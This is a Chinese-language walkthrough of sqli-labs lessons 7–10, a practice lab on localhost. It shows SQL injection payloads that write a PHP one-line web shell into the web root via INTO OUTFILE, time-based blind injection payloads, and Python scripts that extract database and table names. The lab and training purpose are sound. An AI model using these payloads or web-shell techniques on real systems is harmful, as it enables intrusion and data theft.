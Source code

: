 ### Less-7
本关的标题是dump into outfile,意思是本关我们利用文件导入的方式进行注入,其实难点在于 猜测SQL语句和寻找网站的绝对路径，太菜了的我连自己本地都打了很久orz,不过也学到这个骚操作
首先通过测试猜源码
```
id')) LIMIT 0,1"
所以
```
?id=1')) or 1=1--+
没有报错
然后可以利用文件导入导出，我一开始试了很久没写进去，找到了大师傅的博客
[https://blog.csdn.net/HHTNAN/article/details/78520511](https://blog.csdn.net/HHTNAN/article/details/78520511),了解到MYSQL数据导出与导入，secure_file_priv参数需要设置
在mysql文件下的my.ini文件的`[mysqld]`写入
```
secure_file_priv=''
```
至于为什么，请参考大师傅的博客
然后就很顺利
```
?id=1')) union select 1,2,3 into outfile "D:\\phpStudy\\PHPTutorial\\WWW\\sqli-labs-master\\Less-7\\mima.php"--+
```
![](image/31.png)

然后就可以写入一句话木马
```
?id=1')) union select 1,2,'<?php @eval($_post["mima"])?>' into outfile "D:\\phpStudy\\PHPTutorial\\WWW\\sqli-labs-master\\Less-7\\mima.php"--+
```
![](image/32.png)
### Less-8 
和Less-5居然一样的？盲注脚本都一样,可以参考第五题
[https://kit4y.github.io/2019/04/27/Sqli-Labs-Less-2-6/#more](https://kit4y.github.io/2019/04/27/Sqli-Labs-Less-2-6/#more)

### Less-9
题目叫做GET-Bind-Time based XXX时间盲注，所以专门查看了一下时间盲注和布尔注入的一些基础知识
#### 时间盲注：
时间盲注利用前提条件：
页面上没有显示位，也没有输出SQL语句执行错误信息。 正 确的SQL语句和错误的SQL语句返回页面都一样，但是加入sleep(5)条 件之后，页面的返回速度明显慢了5秒。

时间盲注常用函数：
IF(判断语句,A,B)
如果判断语句为真，则返回A
为假则返回B
一般和布尔盲注语句配合使用：
```
if(ascii(substr(“payload”, 1, 1))=104, sleep(5), 1)
```
如果第一个，号前的语句成立，则页面返回速度慢5秒
不成立，页面立即返回

时间盲注过程：
```
if((select count(schema_name) from information_schema. schemata)=9,sleep(5),1) //判断数据库个数
if((select length(schema_name) from information_schem a.schemata limit 0,1)=18,sleep(5),1)
if((select ascii(substr((select schema_name from info rmation_schema.schemata limit 0,1),1,1)))=105,sleep(5),1)//判断 第一个库第一个字符
```

所以本题先疯狂试探,发现不管咋样都是返回一样的，和铁疙瘩一样，所以就能通过时间盲注
```
?id=1' and sleep(3)%23
```
发现等了3秒钟才响应了
然后和盲注一样玩
```
1' and If(ascii(substr(database(),1,1))>115,1,sleep(5))--+
```
然后通过这个脚本拿到当前数据库的名字
```python
# -*- coding: utf-8 -*-
import requests
import time
url = 'http://localhost/sqli-labs-master/Less-9/?id=1'
def check(payload):
	url_new = url + payload
	time_start = time.time()
	content = requests.get(url=url_new)
	time_end = time.time()
	if time_end - time_start >5:
		return 1
result  = ''
s = r'0123456789abcdefghijklmnopqrstuvwxyz_'
for i in range(1,50):
    flag=0;
    for c in s:
        payload = "'and if(substr(database(),%d,1)='%c',sleep(5),1)--+" % (i,c)
        print("Database name: "+result+" | Payload: "+payload)
        if check(payload):
            flag=1;
            result += c
            break
    if(flag==0):
        print("Over")
        break
    print (result)
```
![](image/33.png)
然后通过这个脚本得到第一个security数据表
```python
# -*- coding: utf-8 -*-
import requests
import time
url = 'http://localhost/sqli-labs-master/Less-9/?id=1'
def check(payload):
	url_new = url + payload
	time_start = time.time()
	content = requests.get(url=url_new)
	time_end = time.time()
	if time_end - time_start >5:
		return 1
result  = ''
panduan = ''
ll=0
s = r'0123456789abcdefghijklmnopqrstuvwxyz'
for i in range(1,100):
    for c in s:
        payload = "'and if(substr((select table_name from information_schema.tables where table_schema='security' limit 1,1),%d,1)='%c',sleep(5),1)--+" % (i,c)
        print("Table_name name: "+result+" | Payload: "+payload)
        if check(payload):
            result += c
            break
    if ll==len(result):
    	print ('table_name:  '+result)
        break
    ll = len(result)
    print (result)
```
![](image/34.png)
### Less-10
和第九题一样 , 将单引号换成双引号就好了
```
?id=1" and sleep(1)%23
```
脚本和图九差不多只要修改一下闭合的单引号换成双引号

[下一篇-11~16题详解](README4.md)
更多介绍？
[https://kit4y.github.io/tags/Sql-Injection/](https://kit4y.github.io/tags/Sql-Injection/)